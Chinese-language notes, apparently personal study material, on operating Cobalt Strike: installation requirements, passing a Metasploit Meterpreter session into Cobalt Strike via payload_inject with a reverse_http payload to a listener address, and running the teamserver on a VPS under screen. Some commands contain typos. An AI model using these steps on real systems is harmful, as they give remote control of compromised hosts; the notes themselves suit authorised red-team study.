 ```yaml
---

---
```




# #21-08-27 Cobalt Strike用法

cs可以在Ubuntu，centos，Windows2008,2012,2019，win7，win10，win11，都可以运行

只要可以执行 java -version 成功

centos安装  yum instal openjdk@13 unzip

cs4.2 最好使用jdk11以上

![](cs用法/image-20210827140254423.png)

![image-20210827140409050](cs用法/image-20210827140409050.png)

![image-20210827160438311](cs用法/image-20210827160438311.png)

**1，bg 会话**

**2.调用payload_inject 模块**

use exploit/windows/local/payload_inject

**3.在该模块上配置与cobalt strike上为同样类型的payload**

set payload windows/meterpreter/reverse_http**（cs程序只支持http和https协议）**

**4.设置 DisablePayloadHandler 为 True，此选项会让 Metasploit Framework 避免在其内起一个 handler 来服务你的 payload 连接，也就是告诉 Metasploit Framework 说我们已经建立了监听器，不必再新建监听器了。**

set disablepayloadhandler true

**5.设置 lhost 和 lport 为 Cobalt Strike 的监听 IP 与端口**

set lhosts 192.168.21.43

set lport 8080

![image-20210827160524003](cs用法/image-20210827160524003.png)

**6，运行run**

![image-20210827162931510](cs用法/image-20210827162931510.png)

![image-20210827163040114](cs用法/image-20210827163040114.png)

![image-20210827163212188](cs用法/image-20210827163212188.png)

![image-20210827173045062](cs用法/image-20210827173045062.png)

![image-20210827174242671](cs用法/image-20210827174242671.png)





#cs在vps上如何后台运行

在vps上安装screen

apt install screen	

screen -S cs （随便起的名字）切换到screen 执行

screen 文件中写的默认端口是1998

![image-20210901190549230](cs用法/image-20210901190549230.png) 

然后再进入cs目录启动teamserver，注意格式 ip +password  +jq

![image-20210901190716774](cs用法/image-20210901190716774.png)

![image-20210901193355762](cs用法/image-20210901193355762.png)

![image-20210901193502662](cs用法/image-20210901193502662.png)

强制切入 screen -rd cs

